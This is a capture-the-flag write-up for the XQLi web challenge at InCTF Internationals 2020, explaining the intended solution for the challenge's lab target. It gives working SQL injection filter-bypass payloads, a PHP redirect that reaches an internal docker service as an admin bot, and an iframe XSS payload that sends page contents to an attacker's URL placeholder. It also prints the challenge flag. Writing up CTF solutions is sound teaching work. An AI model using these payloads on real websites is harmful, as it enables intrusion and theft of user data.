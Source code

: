 ```yaml
---
title: XQLi - InCTF Internationals 2020
date: 2020-08-26
author: Az3z3l
author_url: https://twitter.com/Az3z3l
categories:
 - Web Exploitation
tags:
 - CSRF
 - SQLi
 - InCTFi
 - docker-ssrf
 - XSS
---
```


**tl;dr**

+ SQLi - `lcase('inKypinKy')id from dual`
+ Creating User - `header("location:http://web/user.php?session=1111-22222-1234&sub=submit");`
+ Retrieving Flag - `header("location:http://web/flag.php?session=<iframe id="a" src="http://web/flag.php?session=1111-22222-1234&sub=submit" onload=window.location="<URL>?"+btoa(document.getElementById('a').contentWindow.document.body.innerText)>&sub=submit")`

<!--more-->

**Challenge points:** 1000

**Challenge Author:** [Az3z3l](https://twitter.com/Az3z3l)

**Source Code:** [XQLi](https://github.com/Az3z3l/XQLi) or [here](XQLi.tar.gz)

## Challenge Description

What is my perfect crime? I break into Tiffany's at midnight. Do I go for the vault? No, I go for the chandelier. It's priceless. As I'm taking it down, a woman catches me. She tells me to stop. It's her father's business. She's Tiffany. I say no. We make...... All that and he locked himself out the website that had a secret code to break into the place :/ . Help him find the code?

## Solution

**Part - I:**

On looking into the source, one can find a text file, that'll reveal this is a sqli. The users are allowed to enter any query they want(there are some filters though) after select. 

`Select <your input>`.

The goal is to select "inkypinky" as id.

The intended method is to use lcase function along with unicode characters that change to ascii on to bypass the filters.

The unicode character [K](https://www.compart.com/en/unicode/U+212A) can be used here.

Payloads:
 - `lcase('inKypinKy')id from dual`
 - `select X'696e6b7970696e6b79' as id from dual`
 - `case when 0=1 then 'from' else chr(105,110,107,121,112,105,110,107,121) end as id`

**Part - II:**

After completing the SQLi phase, you'll be redirected to ./reception.php. On checking the source code of this, you'll be able to find a hidden text file that has the following.

```
version: '2'

services:
   web:
      # build the web server here

   node:
      # implement an A(dm)I(n) bot that would send only funny links to $(YOU_KNOW_WHO)

   db:
      #  database to be added here
```

This is a crude docker-compose.yml file. The web-server is running under the name `web`. One technique to access the internal ip of docker is use the service name. i.e, http://web will correspond to the internal ip of the web service. Since it is a docker and no specific networks have been provided http://127.0.0.1 and http://localhost won't work. 

Other than this, there are three links: 
 - ./url.php - urls for admin bot to visit
 - ./user.php - tokens/session ids to be created by admin bot
 - ./flag.php - admin bot submits token and gets flag

 To get the flag, we need to create a token. The timeout for the bot is also set to be very less(1 second). This rules out many options(the page might take some time to load if one intends to use js for CSRF) normally uses in a CTF. 

 But when we use a 302 status code, the page is redirected to its target without the page from your server fully rendering. The intended way is to access the web server using http://web by redirecting from your server.

```php
<?php
header("location:http://web/user.php?session=1111-22222-1234&sub=submit");
```

This would redirect to the bot to create a new id. 


**Part - III:**

The next part would be to exfiltrate the flag from flag.php. Even here the same method(http://web) can be used to access the server as admin. 

The flag can be exfiltrated using the XSS vulnerability present in ./flag.php. The word `script` is blocked. But any other element ought to work. 

The using `frame` and `onload` attribute, the flag can be obtained. There surely are other methods though.

`<iframe id="a" src="http://web/flag.php?session=1111-22222-1234&sub=submit" onload=window.location="<URL>?"+btoa(document.getElementById('a').contentWindow.document.body.innerText)>`

would load the flag on the page and exfiltrate to your server. Being a internal docker connection, this would load much faster(making the bot's 1 second timeout useless).

Putting it together with the redirect on your server:

```php
<?php
header("location:http://web/flag.php?session=%3Ciframe+id%3D%22a%22+src%3D%22http%3A%2F%2Fweb%2Fflag.php%3Fsession%3D1111-22222-1234%26sub%3Dsubmit%22+onload%3Dwindow.location%3D%22%3CURL%3E%3F%22%2Bbtoa%28document.getElementById%28%27a%27%29.contentWindow.document.body.innerText%29%3E%26sub%3Dsubmit");
```

## Flag:

inctf{p3op13_persons_c7f_pe0p13_9986000}
